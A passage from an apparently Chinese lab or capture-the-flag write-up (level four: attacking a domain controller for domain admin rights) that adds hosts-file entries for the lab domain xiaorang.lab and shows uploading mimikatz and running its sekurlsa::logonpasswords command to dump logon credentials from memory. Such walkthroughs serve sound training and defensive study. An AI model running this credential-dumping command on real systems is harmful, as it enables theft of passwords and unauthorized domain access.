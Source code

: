 ## 第四关

```plain
发现域控制器所存在的漏洞，尝试获取域内管理员权限。
```

现在/etc/hosts 添加一下解析

[![](assets/1708919820-0ede83618313499bc2e9533d4d2ccc5d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240215024947-d35ef3aa-cb69-1.png)

```plain
172.22.61.17 xiaorang.lab
172.22.61.17 dc.xiaorang.lab
```

上传秘密卡提兹

```plain
/mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords
" "exit"
```

[![](assets/1708919820-3cd70f37cbe1dd89f23e099974eebaef.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240215024953-d6c71f36-cb69-1.png)
